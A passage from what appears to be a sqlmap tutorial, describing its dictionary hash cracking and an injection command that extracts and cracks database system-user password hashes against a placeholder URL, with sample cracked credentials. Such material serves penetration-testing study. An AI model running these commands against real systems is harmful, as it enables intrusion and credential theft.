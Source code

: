 **Hash Cracking Process:**
```bash
# Automatic hash cracking capabilities:
- 31 different hash algorithm support
- 1.4 million entry dictionary (compiled from public leaks)
- Multi-processing based on CPU cores
- Real-time cracking feedback

# Example cracking output:
[INFO] cracked password '05adrian' for hash '70f361f8a1c9035a1d972a209ec5e8b726d1055e'
[INFO] cracked password '1201Hunt' for hash 'df692aa944eb45737f0b3b3ef906f8372a3834e9'
[INFO] cracked password 'testpass' for user 'root'
```

**Cracked Results Display:**
```
Database: master
Table: users
[32 entries]
+----+-------------------+-------------------------------------------------------------+
| id | name              | password                                                    |
+----+-------------------+-------------------------------------------------------------+
| 1  | Maynard Rice      | 9a0f092c8d52eaf3ea423cef8485702ba2b3deb9 (3052)             |
| 2  | Julio Thomas      | 10945aa229a6d569f226976b22ea0e900a1fc219 (taqris)           |
| 6  | Kimberly Wright   | d642ff0feca378666a8727947482f1a4702deba0 (Enizoom1609)      |
+----+-------------------+-------------------------------------------------------------+
```

##### Database User Password Cracking

**System User Password Enumeration:**
```bash
# Target database system users (not application users)
sqlmap -u "http://www.example.com/?id=1" --passwords --batch

# Process:
1. Extracts database user accounts (root, debian-sys-maint, etc.)
2. Retrieves password hashes from system tables
3. Attempts dictionary-based cracking
4. Displays cracked credentials
```

**Example Database User Results:**
```
database management system users password hashes:

[*] debian-sys-maint [1]:
    password hash: *6B2C58EABD91C1776DA223B088B601604F898847

[*] root [1]:
    password hash: *00E247AC5F9AF26AE0194B41E1E769DEE1429A29
    clear-text password: testpass
```

##### Complete Automatic Enumeration
